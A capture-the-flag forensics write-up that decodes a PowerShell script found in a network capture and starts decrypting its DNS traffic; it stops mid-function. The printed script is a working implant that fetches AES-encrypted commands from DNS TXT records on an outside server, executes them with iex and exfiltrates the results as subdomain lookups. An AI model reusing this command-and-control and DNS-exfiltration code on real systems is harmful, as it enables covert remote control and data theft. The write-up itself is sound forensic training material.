



# [Forensics] Automation

Disclaimer: we did not finish this challenge, but we still want to document our thought process in the resolution. Solutions can be found [here](https://gore-ez-knee.github.io/posts/htb-ca-2022-writeup-table/)

---

Automation is a network capture, that can be read with tcpdump or Wireshark.

From Wireshark, we can get reassembled files that went through the wire. However this only works for unencrypted protocols, such as HTTP.



By downloading the file `desktop.png`, we get an ASCII file containing a base64 encoded powershell script:

```
ZnVuY3Rpb24gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QoJGtleSwgJElWKSB7CiAgICAkYWVzTWFuYWdlZCA9IE5ldy1PYmplY3QgIlN5c3RlbS5TZWN1cml0eS5DcnlwdG9ncmFwaHkuQWVzTWFuYWdlZCIKICAgICRhZXNNYW5hZ2VkLk1vZGUgPSBbU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5DaXBoZXJNb2RlXTo6Q0JDCiAgICAkYWVzTWFuYWdlZC5QYWRkaW5nID0gW1N5c3RlbS5TZWN1cml0eS5DcnlwdG9ncmFwaHkuUGFkZGluZ01vZGVdOjpaZXJvcwogICAgJGFlc01hbmFnZWQuQmxvY2tTaXplID0gMTI4CiAgICAkYWVzTWFuYWdlZC5LZXlTaXplID0gMjU2CiAgICBpZiAoJElWKSB7CiAgICAgICAgaWYgKCRJVi5nZXRUeXBlKCkuTmFtZSAtZXEgIlN0cmluZyIpIHsKICAgICAgICAgICAgJGFlc01hbmFnZWQuSVYgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRJVikKICAgICAKICAgICAgICB9CiAgICAgICAgZWxzZSB7CiAgICAgICAgICAgICRhZXNNYW5hZ2VkLklWID0gJElWCiAgICAgCgogICAgICAgIH0KICAgIH0KICAgIGlmICgka2V5KSB7CgogICAgICAgIGlmICgka2V5LmdldFR5cGUoKS5OYW1lIC1lcSAiU3RyaW5nIikgewogICAgICAgICAgICAkYWVzTWFuYWdlZC5LZXkgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRrZXkpCiAgICAgICAgfQogICAgICAgIGVsc2UgewogICAgICAgICAgICAkYWVzTWFuYWdlZC5LZXkgPSAka2V5CiAgICAgICAgfQogICAgfQogICAgJGFlc01hbmFnZWQKfQoKZnVuY3Rpb24gQ3JlYXRlLUFlc0tleSgpIHsKICAKICAgICRhZXNNYW5hZ2VkID0gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QgJGtleSAkSVYKICAgIFtTeXN0ZW0uQ29udmVydF06OlRvQmFzZTY0U3RyaW5nKCRhZXNNYW5hZ2VkLktleSkKfQoKZnVuY3Rpb24gRW5jcnlwdC1TdHJpbmcoJGtleSwgJHVuZW5jcnlwdGVkU3RyaW5nKSB7CiAgICAkYnl0ZXMgPSBbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCR1bmVuY3J5cHRlZFN0cmluZykKICAgICRhZXNNYW5hZ2VkID0gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QgJGtleQogICAgJGVuY3J5cHRvciA9ICRhZXNNYW5hZ2VkLkNyZWF0ZUVuY3J5cHRvcigpCiAgICAkZW5jcnlwdGVkRGF0YSA9ICRlbmNyeXB0b3IuVHJhbnNmb3JtRmluYWxCbG9jaygkYnl0ZXMsIDAsICRieXRlcy5MZW5ndGgpOwogICAgW2J5dGVbXV0gJGZ1bGxEYXRhID0gJGFlc01hbmFnZWQuSVYgKyAkZW5jcnlwdGVkRGF0YQogICAgJGFlc01hbmFnZWQuRGlzcG9zZSgpCiAgICBbU3lzdGVtLkJpdENvbnZlcnRlcl06OlRvU3RyaW5nKCRmdWxsRGF0YSkucmVwbGFjZSgiLSIsIiIpCn0KCmZ1bmN0aW9uIERlY3J5cHQtU3RyaW5nKCRrZXksICRlbmNyeXB0ZWRTdHJpbmdXaXRoSVYpIHsKICAgICRieXRlcyA9IFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJGVuY3J5cHRlZFN0cmluZ1dpdGhJVikKICAgICRJViA9ICRieXRlc1swLi4xNV0KICAgICRhZXNNYW5hZ2VkID0gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QgJGtleSAkSVYKICAgICRkZWNyeXB0b3IgPSAkYWVzTWFuYWdlZC5DcmVhdGVEZWNyeXB0b3IoKTsKICAgICR1bmVuY3J5cHRlZERhdGEgPSAkZGVjcnlwdG9yLlRyYW5zZm9ybUZpbmFsQmxvY2soJGJ5dGVzLCAxNiwgJGJ5dGVzLkxlbmd0aCAtIDE2KTsKICAgICRhZXNNYW5hZ2VkLkRpc3Bvc2UoKQogICAgW1N5c3RlbS5UZXh0LkVuY29kaW5nXTo6VVRGOC5HZXRTdHJpbmcoJHVuZW5jcnlwdGVkRGF0YSkuVHJpbShbY2hhcl0wKQp9CgpmaWx0ZXIgcGFydHMoJHF1ZXJ5KSB7ICR0ID0gJF87IDAuLlttYXRoXTo6Zmxvb3IoJHQubGVuZ3RoIC8gJHF1ZXJ5KSB8ICUgeyAkdC5zdWJzdHJpbmcoJHF1ZXJ5ICogJF8sIFttYXRoXTo6bWluKCRxdWVyeSwgJHQubGVuZ3RoIC0gJHF1ZXJ5ICogJF8pKSB9fSAKJGtleSA9ICJhMUU0TVV0eWNXc3dUbXRyTUhkcWRnPT0iCiRvdXQgPSBSZXNvbHZlLURuc05hbWUgLXR5cGUgVFhUIC1EbnNPbmx5IHdpbmRvd3NsaXZldXBkYXRlci5jb20gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODl8U2VsZWN0LU9iamVjdCAtUHJvcGVydHkgU3RyaW5nczsKZm9yICgkbnVtID0gMCA7ICRudW0gLWxlICRvdXQuTGVuZ3RoLTI7ICRudW0rKyl7CiRlbmNyeXB0ZWRTdHJpbmcgPSAkb3V0WyRudW1dLlN0cmluZ3NbMF0KJGJhY2tUb1BsYWluVGV4dCA9IERlY3J5cHQtU3RyaW5nICRrZXkgJGVuY3J5cHRlZFN0cmluZwokb3V0cHV0ID0gaWV4ICRiYWNrVG9QbGFpblRleHQ7JHByID0gRW5jcnlwdC1TdHJpbmcgJGtleSAkb3V0cHV0fHBhcnRzIDMyClJlc29sdmUtRG5zTmFtZSAtdHlwZSBBIC1EbnNPbmx5IHN0YXJ0LndpbmRvd3NsaXZldXBkYXRlci5jb20gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODkKZm9yICgkYW5zID0gMDsgJGFucyAtbHQgJHByLmxlbmd0aC0xOyAkYW5zKyspewokZG9tYWluID0gLWpvaW4oJHByWyRhbnNdLCIud2luZG93c2xpdmV1cGRhdGVyLmNvbSIpClJlc29sdmUtRG5zTmFtZSAtdHlwZSBBIC1EbnNPbmx5ICRkb21haW4gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODkKICAgIH0KUmVzb2x2ZS1EbnNOYW1lIC10eXBlIEEgLURuc09ubHkgZW5kLndpbmRvd3NsaXZldXBkYXRlci5jb20gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODkKfQ==
```

```
$ base64 -d < desktop.png
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)

        }
        else {
            $aesManaged.IV = $IV


        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {

    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }}
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```

This script uses DNS request to send AES encrypted strings. Since the script contains the key `a1E4MUtycWswTmtrMHdqdg==` and we have access to the DNS requests, we can recover the information.

Each series of commands starts with a DNS request for `start.windowsliveupdater.com`, and ends with `end.windowsliveupdater.com`:

```
$ tcpdump -Ar capture.pcap port 53 | grep .windowsliveupdater.com | grep 'A?'
reading from file capture.pcap, link-type EN10MB (Ethernet)
23:42:15.455579 IP 10.0.2.15.53201 > 192.168.1.1.domain: 43902+ A? windowsliveupdater.com. (40)
23:42:17.528678 IP 10.0.2.15.53884 > 147.182.172.189.domain: 64856+ A? start.windowsliveupdater.com. (46)
23:42:17.715786 IP 10.0.2.15.54012 > 147.182.172.189.domain: 26811+ A? CC1C9AC2958A2E63609272E2B4F8F436.windowsliveupdater.com. (73)
23:42:17.920483 IP 10.0.2.15.53585 > 147.182.172.189.domain: 62689+ A? 32A806549B03AB7E4EB39771AEDA4A1B.windowsliveupdater.com. (73)
23:42:18.060817 IP 10.0.2.15.49921 > 147.182.172.189.domain: 17774+ A? C1006AC8A03F9776B08321BD6D5247BB.windowsliveupdater.com. (73)
23:42:18.356706 IP 10.0.2.15.60369 > 147.182.172.189.domain: 44442+ A? end.windowsliveupdater.com. (44)
23:42:18.652920 IP 10.0.2.15.64483 > 147.182.172.189.domain: 11352+ A? start.windowsliveupdater.com. (46)
23:42:18.798260 IP 10.0.2.15.65091 > 147.182.172.189.domain: 58337+ A? 7679895D1CF7C07BB6A348E1AA4AFC65.windowsliveupdater.com. (73)
23:42:19.062760 IP 10.0.2.15.62939 > 147.182.172.189.domain: 37551+ A? 5958A6856F1A34AAD5E97EA55B087670.windowsliveupdater.com. (73)
23:42:19.434607 IP 10.0.2.15.53077 > 147.182.172.189.domain: 26235+ A? 35F2497E5836EA0ECA1F1280F59742A3.windowsliveupdater.com. (73)
23:42:19.775076 IP 10.0.2.15.52354 > 147.182.172.189.domain: 9902+ A? end.windowsliveupdater.com. (44)
23:42:20.151970 IP 10.0.2.15.64729 > 147.182.172.189.domain: 58877+ A? start.windowsliveupdater.com. (46)
23:42:20.413015 IP 10.0.2.15.56909 > 147.182.172.189.domain: 19008+ A? 09E28DD82C14BC32513652DAC2F2C27B.windowsliveupdater.com. (73)
23:42:20.755263 IP 10.0.2.15.50978 > 147.182.172.189.domain: 12149+ A? 0D73A3288A980D8FCEF94BDDCF9E2822.windowsliveupdater.com. (73)
23:42:20.986008 IP 10.0.2.15.60010 > 147.182.172.189.domain: 49858+ A? 2A1CA17BB2D90FCD6158856348790414.windowsliveupdater.com. (73)
23:42:21.177568 IP 10.0.2.15.54518 > 147.182.172.189.domain: 42860+ A? 20FC39C684A9E371CC3A06542B666005.windowsliveupdater.com. (73)
23:42:21.343845 IP 10.0.2.15.56397 > 147.182.172.189.domain: 29270+ A? 5840BD94CCE65E23613925B4D9D2BA53.windowsliveupdater.com. (73)
23:42:21.599314 IP 10.0.2.15.54711 > 147.182.172.189.domain: 13498+ A? 18EA75BC653004D45D505ED62567017A.windowsliveupdater.com. (73)
23:42:21.790364 IP 10.0.2.15.52946 > 147.182.172.189.domain: 29161+ A? 6FA4E7593D83092F67A81082D9930E99.windowsliveupdater.com. (73)
23:42:22.021008 IP 10.0.2.15.58561 > 147.182.172.189.domain: 20548+ A? BA20E34AACC4774F067442C6622F5DA2.windowsliveupdater.com. (73)
23:42:22.330141 IP 10.0.2.15.60843 > 147.182.172.189.domain: 7143+ A? A9B09FF558A8DF000ECBD37804CE663E.windowsliveupdater.com. (73)
23:42:22.532305 IP 10.0.2.15.57403 > 147.182.172.189.domain: 27581+ A? 3521599BC7591005AB6799C57068CF0D.windowsliveupdater.com. (73)
23:42:22.913643 IP 10.0.2.15.61706 > 147.182.172.189.domain: 46993+ A? C6884CECF01C0CD44FD6B82DB788B35D.windowsliveupdater.com. (73)
23:42:23.172245 IP 10.0.2.15.61349 > 147.182.172.189.domain: 27456+ A? 62F02E4CAA1D973FBECC235AE9F40254.windowsliveupdater.com. (73)
23:42:23.329710 IP 10.0.2.15.53665 > 147.182.172.189.domain: 34843+ A? C63D3C93C89930DA2C4F42D9FC123D8B.windowsliveupdater.com. (73)
23:42:23.646153 IP 10.0.2.15.65341 > 147.182.172.189.domain: 63816+ A? AB00ACAB5198AFCC8C6ACD81B19CD264.windowsliveupdater.com. (73)
23:42:23.883405 IP 10.0.2.15.58510 > 147.182.172.189.domain: 4367+ A? CC6353668CEA4C88C8AEEA1D58980022.windowsliveupdater.com. (73)
23:42:24.133572 IP 10.0.2.15.64419 > 147.182.172.189.domain: 36715+ A? DA8FA2E917F17C28608818BF550FEA66.windowsliveupdater.com. (73)
23:42:24.391749 IP 10.0.2.15.62174 > 147.182.172.189.domain: 2357+ A? 973B5A8355258AB0AA281AD88F5B9EB1.windowsliveupdater.com. (73)
23:42:24.782337 IP 10.0.2.15.60104 > 147.182.172.189.domain: 48930+ A? 03AC666FE09A1D449736335C09484D27.windowsliveupdater.com. (73)
23:42:25.153883 IP 10.0.2.15.54806 > 147.182.172.189.domain: 22153+ A? 1C301C6D5780AB2C9FA333BE3B0185BF.windowsliveupdater.com. (73)
23:42:25.298492 IP 10.0.2.15.50116 > 147.182.172.189.domain: 38748+ A? 071FB1205C4DBEAA2241168B0748902A.windowsliveupdater.com. (73)
23:42:25.513219 IP 10.0.2.15.53455 > 147.182.172.189.domain: 5629+ A? 6CE14903C7C47E7C87311044CB9873A4.windowsliveupdater.com. (73)
23:42:25.787203 IP 10.0.2.15.51116 > 147.182.172.189.domain: 13918+ A? end.windowsliveupdater.com. (44)
23:42:26.229543 IP 10.0.2.15.55693 > 147.182.172.189.domain: 17907+ A? start.windowsliveupdater.com. (46)
23:42:26.459522 IP 10.0.2.15.54313 > 147.182.172.189.domain: 44685+ A? ECABC349D27C0B0FFFD1ACEEDBE06BB6.windowsliveupdater.com. (73)
23:42:26.686494 IP 10.0.2.15.59740 > 147.182.172.189.domain: 22599+ A? C2EB000EE4F9B35D6F001500E85642A2.windowsliveupdater.com. (73)
23:42:26.889673 IP 10.0.2.15.63757 > 147.182.172.189.domain: 12855+ A? DCC8F1BE2CF4D667F458C1DE46D24B1C.windowsliveupdater.com. (73)
23:42:27.087640 IP 10.0.2.15.61739 > 147.182.172.189.domain: 34333+ A? 2E0F5D94E52649C70402C1B0A2FF7B49.windowsliveupdater.com. (73)
23:42:27.313495 IP 10.0.2.15.49177 > 147.182.172.189.domain: 50727+ A? FC32DDD67F275307A74B2C4D0864B3F0.windowsliveupdater.com. (73)
23:42:27.628674 IP 10.0.2.15.49600 > 147.182.172.189.domain: 35054+ A? 486186DA9443EB747F717B3911C959DC.windowsliveupdater.com. (73)
23:42:27.830170 IP 10.0.2.15.60244 > 147.182.172.189.domain: 44084+ A? 7E300844D60655410C3988238E615D61.windowsliveupdater.com. (73)
23:42:28.076237 IP 10.0.2.15.58793 > 147.182.172.189.domain: 20324+ A? 6F33D27F63CE4D1E065A416911BC50D4.windowsliveupdater.com. (73)
23:42:28.378398 IP 10.0.2.15.57142 > 147.182.172.189.domain: 44132+ A? 58749599D2CB08DB561988EB2902E05D.windowsliveupdater.com. (73)
23:42:28.595915 IP 10.0.2.15.50517 > 147.182.172.189.domain: 54837+ A? 9886FDDAC2BED6F6DA73637AD2F20CF1.windowsliveupdater.com. (73)
23:42:28.767314 IP 10.0.2.15.55686 > 147.182.172.189.domain: 48154+ A? 99B8CE3D9DEE03C0180C7D1198B49C02.windowsliveupdater.com. (73)
23:42:29.780818 IP 10.0.2.15.55686 > 147.182.172.189.domain: 48154+ A? 99B8CE3D9DEE03C0180C7D1198B49C02.windowsliveupdater.com. (73)
23:42:30.012589 IP 10.0.2.15.49441 > 147.182.172.189.domain: 31898+ A? 769E5EE4EAB896D7D3BB478EA1408167.windowsliveupdater.com. (73)
23:42:31.008731 IP 10.0.2.15.49441 > 147.182.172.189.domain: 31898+ A? 769E5EE4EAB896D7D3BB478EA1408167.windowsliveupdater.com. (73)
23:42:31.237553 IP 10.0.2.15.54889 > 147.182.172.189.domain: 948+ A? 79472A243BFB0852AF372323EC132988.windowsliveupdater.com. (73)
23:42:31.657702 IP 10.0.2.15.51927 > 147.182.172.189.domain: 32716+ A? 3C81A3F2AEB1D3DAAE8496E1DBF97F43.windowsliveupdater.com. (73)
23:42:32.000705 IP 10.0.2.15.54718 > 147.182.172.189.domain: 36642+ A? 5AE40A09203B890C4A174D77CB7026C4.windowsliveupdater.com. (73)
23:42:32.141671 IP 10.0.2.15.51732 > 147.182.172.189.domain: 14116+ A? E990A6FB6424A7501823AD31D3D6B634.windowsliveupdater.com. (73)
23:42:32.281906 IP 10.0.2.15.50451 > 147.182.172.189.domain: 49875+ A? 4C7971C8D447C078C4471732AD881C39.windowsliveupdater.com. (73)
23:42:32.561803 IP 10.0.2.15.64355 > 147.182.172.189.domain: 18961+ A? 4BC8B1A66E0BED43DDC359269B57D1D5.windowsliveupdater.com. (73)
23:42:32.780406 IP 10.0.2.15.60234 > 147.182.172.189.domain: 18928+ A? D68DCD2A608BF61716BB47D6FE4D5C9D.windowsliveupdater.com. (73)
23:42:32.991431 IP 10.0.2.15.58139 > 147.182.172.189.domain: 25601+ A? 6E8BB2981F214A8234B0DD0210CA96EB.windowsliveupdater.com. (73)
23:42:33.195653 IP 10.0.2.15.64574 > 147.182.172.189.domain: 47346+ A? 2D6322B0F7F3D748C4C9F8B80EFF5A69.windowsliveupdater.com. (73)
23:42:33.335977 IP 10.0.2.15.64931 > 147.182.172.189.domain: 7616+ A? 21A3D1A8621A49F4D29BC9851D25230B.windowsliveupdater.com. (73)
23:42:33.479823 IP 10.0.2.15.51177 > 147.182.172.189.domain: 12230+ A? end.windowsliveupdater.com. (44)
23:42:35.063169 IP 10.0.2.15.52964 > 147.182.172.189.domain: 32906+ A? start.windowsliveupdater.com. (46)
23:42:35.326596 IP 10.0.2.15.50880 > 147.182.172.189.domain: 45053+ A? 841BDB4E9E5F8BF721B58E8308177B57.windowsliveupdater.com. (73)
23:42:36.307126 IP 10.0.2.15.58162 > 147.182.172.189.domain: 3282+ A? 2E9A015967DA5BF11AC9155FC2159C8F.windowsliveupdater.com. (73)
23:42:37.136866 IP 10.0.2.15.50117 > 147.182.172.189.domain: 54571+ A? 610CD82F818B4BDF5E48722DAF4BEEEB.windowsliveupdater.com. (73)
23:42:37.628450 IP 10.0.2.15.50460 > 147.182.172.189.domain: 42709+ A? ABCE30583F503B484BF99020E28A1B8F.windowsliveupdater.com. (73)
23:42:37.876952 IP 10.0.2.15.61209 > 147.182.172.189.domain: 30344+ A? 282A23FEB3A21C3AD89882F5AC0DD3D5.windowsliveupdater.com. (73)
23:42:38.184427 IP 10.0.2.15.58497 > 147.182.172.189.domain: 7161+ A? 7D87875231652D0F4431EC37E51A09D5.windowsliveupdater.com. (73)
23:42:38.398539 IP 10.0.2.15.56590 > 147.182.172.189.domain: 707+ A? 7E2854D11003AB6E2F4BFB4F7E2477DA.windowsliveupdater.com. (73)
23:42:38.860756 IP 10.0.2.15.50135 > 147.182.172.189.domain: 33110+ A? A44FCA3BC6021777F03F139D458C0524.windowsliveupdater.com. (73)
23:42:39.033967 IP 10.0.2.15.59394 > 147.182.172.189.domain: 33905+ A? end.windowsliveupdater.com. (44)
23:42:41.825003 IP 10.0.2.15.64004 > 147.182.172.189.domain: 31815+ A? start.windowsliveupdater.com. (46)
23:42:42.031662 IP 10.0.2.15.61697 > 147.182.172.189.domain: 50488+ A? AE4ABE8A3A88D21DEEA071A72D65A35E.windowsliveupdater.com. (73)
23:42:42.250392 IP 10.0.2.15.53153 > 147.182.172.189.domain: 35075+ A? F158D9F025897D1843E37B7463EC7833.windowsliveupdater.com. (73)
23:42:42.735680 IP 10.0.2.15.60067 > 147.182.172.189.domain: 47105+ A? end.windowsliveupdater.com. (44)
```

Reordering all of this, we get:

```
start.windowsliveupdater.com.(46)
cc1c9ac2958a2e63609272e2b4f8f43632a806549b03ab7e4eb39771aeda4a1bc1006ac8a03f9776b08321bd6d5247bb
end.windowsliveupdater.com.(44)

start.windowsliveupdater.com.(46)
7679895d1cf7c07bb6a348e1aa4afc655958a6856f1a34aad5e97ea55b08767035f2497e5836ea0eca1f1280f59742a3
end.windowsliveupdater.com.(44)

start.windowsliveupdater.com.(46)
09E28DD82C14BC32513652DAC2F2C27B0D73A3288A980D8FCEF94BDDCF9E28222A1CA17BB2D90FCD615885634879041420FC39C684A9E371CC3A06542B6660055840BD94CCE65E23613925B4D9D2BA5318EA75BC653004D45D505ED62567017A6FA4E7593D83092F67A81082D9930E99BA20E34AACC4774F067442C6622F5DA2A9B09FF558A8DF000ECBD37804CE663E3521599BC7591005AB6799C57068CF0DC6884CECF01C0CD44FD6B82DB788B35D62F02E4CAA1D973FBECC235AE9F40254C63D3C93C89930DA2C4F42D9FC123D8BAB00ACAB5198AFCC8C6ACD81B19CD264CC6353668CEA4C88C8AEEA1D58980022DA8FA2E917F17C28608818BF550FEA66973B5A8355258AB0AA281AD88F5B9EB103AC666FE09A1D449736335C09484D271C301C6D5780AB2C9FA333BE3B0185BF071FB1205C4DBEAA2241168B0748902A6CE14903C7C47E7C87311044CB9873A4
end.windowsliveupdater.com.(44)

start.windowsliveupdater.com.(46)
ECABC349D27C0B0FFFD1ACEEDBE06BB6C2EB000EE4F9B35D6F001500E85642A2DCC8F1BE2CF4D667F458C1DE46D24B1C2E0F5D94E52649C70402C1B0A2FF7B49FC32DDD67F275307A74B2C4D0864B3F0486186DA9443EB747F717B3911C959DC7E300844D60655410C3988238E615D616F33D27F63CE4D1E065A416911BC50D458749599D2CB08DB561988EB2902E05D9886FDDAC2BED6F6DA73637AD2F20CF199B8CE3D9DEE03C0180C7D1198B49C0299B8CE3D9DEE03C0180C7D1198B49C02769E5EE4EAB896D7D3BB478EA1408167769E5EE4EAB896D7D3BB478EA14081679472A243BFB0852AF372323EC1329883C81A3F2AEB1D3DAAE8496E1DBF97F435AE40A09203B890C4A174D77CB7026C4E990A6FB6424A7501823AD31D3D6B6344C7971C8D447C078C4471732AD881C394BC8B1A66E0BED43DDC359269B57D1D5D68DCD2A608BF61716BB47D6FE4D5C9D6E8BB2981F214A8234B0DD0210CA96EB2D6322B0F7F3D748C4C9F8B80EFF5A6921A3D1A8621A49F4D29BC9851D25230B
end.windowsliveupdater.com.(44)

start.windowsliveupdater.com.(46)
841BDB4E9E5F8BF721B58E8308177B572E9A015967DA5BF11AC9155FC2159C8F610CD82F818B4BDF5E48722DAF4BEEEBABCE30583F503B484BF99020E28A1B8F282A23FEB3A21C3AD89882F5AC0DD3D57D87875231652D0F4431EC37E51A09D5E2854D11003AB6E2F4BFB4F7E2477DAA44FCA3BC6021777F03F139D458C0524
end.windowsliveupdater.com.(44)

start.windowsliveupdater.com.(46)
AE4ABE8A3A88D21DEEA071A72D65A35EF158D9F025897D1843E37B7463EC7833
end.windowsliveupdater.com.(44)
```

The corresponding DNS answers also contain interesting information:

```
$ tcpdump -Ar capture.pcap port 53 | grep TXT
reading from file capture.pcap, link-type EN10MB (Ethernet)
23:42:16.948676 IP 10.0.2.15.63328 > 147.182.172.189.domain: 8315+ TXT? windowsliveupdater.com. (40)
23:42:17.086441 IP 147.182.172.189.domain > 10.0.2.15.63328: 8315* 7/0/0 TXT "Ifu1yiK5RMABD4wno66axIGZuj1HXezG5gxzpdLO6ws=", TXT "hhpgWsOli4AnW9g/7TM4rcYyvDNky4yZvLVJ0olX5oA=", TXT "58v04KhrSziOyRaMLvKM+JrCHpM4WmvBT/wYTRKDw2s=", TXT "eTtfUgcchm/R27YJDP0iWnXHy02ijScdI4tUqAVPKGf3nsBE28fDUbq0C8CnUnJC57lxUMYFSqHpB5bhoVTYafNZ8+ijnMwAMy4hp0O4FeH0Xo69ahI8ndUfIsiD/Bru", TXT "BbvWcWhRToPqTupwX6Kf7A0jrOdYWumqaMRz6uPcnvaDvRKY2+eAl0qT3Iy1kUGWGSEoRu7MjqxYmek78uvzMTaH88cWwlgUJqr1vsr1CsxCwS/KBYJXhulyBcMMYOtcqImMiU3x0RzlsFXTUf1giNF2qZUDthUN7Z8AIwvmz0a+5aUTegq/pPFsK0i7YNZsK7JEmz+wQ7Ds/UU5+SsubWYdtxn+lxw58XqHxyAYAo0=", TXT "vJxlcLDI/0sPurvacG0iFbstwyxtk/el9czGxTAjYBmUZEcD63bco9uzSHDoTvP1ZU9ae5VW7Jnv9jsZHLsOs8dvxsIMVMzj1ItGo3dT+QrpsB4M9wW5clUuDeF/C3lwCRmYYFSLN/cUNOH5++YnX66b1iHUJTBCqLxiEfThk5A=", TXT "M3/+2RJ/qY4O+nclGPEvJMIJI4U6SF6VL8ANpz9Y6mSHwuUyg4iBrMrtSsfpA2bh" (863)
```

We can then use the script to decrypt those values:

```
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)

        }
        else {
            $aesManaged.IV = $IV


        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {

    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
